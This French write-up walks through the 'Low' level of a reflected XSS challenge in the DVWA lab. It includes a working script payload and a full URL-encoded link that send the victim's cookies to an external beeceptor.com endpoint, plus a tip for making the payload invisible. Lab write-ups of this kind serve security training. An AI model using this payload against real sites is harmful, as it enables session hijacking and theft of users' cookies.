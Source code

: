 # Niveau "Low"

Sur ce challenge, un simple formulaire permettant de saisir son nom :

![](../../../../.gitbook/assets/bbf16dde4020a8d2d1fe14407f9a86a6.png)

Le paramètre **`GET`** nommé `name` est simplement réfléchi sur la page :

![](../../../../.gitbook/assets/0f1ab9498e89d4b6ab5e5aad787c2e10.png)

Je tente une simple `alert()` box  :

![](../../../../.gitbook/assets/f3a8c7198442aeed07b360f1edb5fd49.png)

Il ne reste plus qu'a forger un lien exécutant un script envoyant les cookies de la victime sur un serveur malicieux :

```javascript
<script>document.write('<img src="https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie + '" />')</script>
```

![](../../../../.gitbook/assets/bf16bb33a4bc0fb6c35065e43d4c62be.png)

L'URL complète à soumettre à la victime est :

```http
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.write%28%27%3Cimg+src%3D%22https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29%3C%2Fscript%3E
```

L'exécution de la payload sera invisible pour la victime (concernant l'icone de l'image, il suffira de renseigner une taille à 0) :

![](../../../../.gitbook/assets/72061dc6e01cd1e4dec722d83662e405.png)

Côté attaquant, je reçois la valeur des cookies lors du chargement de l'image (par la victime) :

![](../../../../.gitbook/assets/f07926511e14747e755e5538516e2c02.png)

{% hint style="info" %}
J'utilise ici le service [beeceptor.com](https://beeceptor.com/) mais il est bien sur possible d'utiliser son propre serveur malicieux à partir du moment qu'il est possible de visualiser les requêtes effectuées
{% endhint %}
